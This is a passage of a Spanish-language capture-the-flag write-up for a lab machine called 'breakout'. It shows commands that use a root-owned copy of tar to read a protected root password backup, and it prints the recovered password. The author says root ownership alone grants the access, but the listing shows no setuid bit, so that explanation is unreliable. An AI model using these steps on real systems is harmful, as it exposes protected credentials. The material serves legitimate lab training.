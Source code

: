 No arrojaron resultados favorables.

Sin embargo, al listar el contenido del directorio personal del usuario `cyber`, encontré un archivo inusual.

```bash
cyber@breakout:~$ ls -la
...
-rwxr-xr-x  1 root  root  531928 Oct 19  2021 tar
-rw-r--r--  1 cyber cyber     48 Oct 19  2021 user.txt
...
```

El archivo `tar` era un ejecutable propiedad del usuario `root`, sobre el cual yo tenía permisos de ejecución. Mi primera hipótesis fue que podría ser un binario personalizado. Para verificarlo, realicé una comprobación forense comparando su hash `sha256` con el del binario del sistema `/bin/tar`.

```bash
cyber@breakout:~$ sha256sum /bin/tar
48ee8ce96a228505db917ebd2912ac983a18f7e1fa27fdbddee4bf3e9f386792  /bin/tar
cyber@breakout:~$ sha256sum ./tar
48ee8ce96a228505db917ebd2912ac983a18f7e1fa27fdbddee4bf3e9f386792  ./tar
```

Los hashes eran idénticos. Esto confirmaba que era una copia del comando `tar` del sistema, pero con una diferencia crucial: al ser propiedad de `root`, los procesos que ejecutara podrían heredar ciertos privilegios de acceso a archivos.

#### <mark style="color:green;">4.2 Explotación de</mark> <mark style="color:green;"></mark><mark style="color:green;">`tar`</mark> <mark style="color:green;"></mark><mark style="color:green;">para Lectura de Archivos</mark>

Continuando con mi enumeración, descubrí un archivo sospechoso en `/var/backups/`.

```bash
cyber@breakout:/var/backups$ ls -la
...
-rw-------  1 root root    17 Oct 20  2021 .old_pass.bak
```

El archivo `.old_pass.bak` pertenecía a `root` y no tenía permisos de lectura para mi usuario. Aquí es donde el binario `tar` local se convirtió en la clave.

Entendí que el comando `tar`, al ejecutarse, accede a los archivos con los privilegios del propietario del binario (en este caso, `root`). Por lo tanto, el proceso de _compresión_ podría leer el archivo protegido. Luego, al _descomprimir_ el archivo resultante, el nuevo archivo sería creado con los permisos del usuario que ejecuta el comando (en este caso, `cyber`), dándome acceso de lectura.

Ejecuté el siguiente procedimiento:

```bash
# 1. Usar el binario local para comprimir el archivo protegido
cyber@breakout:~$ ./tar -cvf compres.tar /var/backups/.old_pass.bak
/var/backups/.old_pass.bak

# 2. Descomprimir el archivo tarball recién creado
cyber@breakout:~$ ./tar -xvf compres.tar
var/backups/.old_pass.bak

# 3. Leer el contenido del archivo extraído, ahora con permisos de mi usuario
cyber@breakout:~$ cat var/backups/.old_pass.bak
Ts&4&YurgtRX(=~h
```
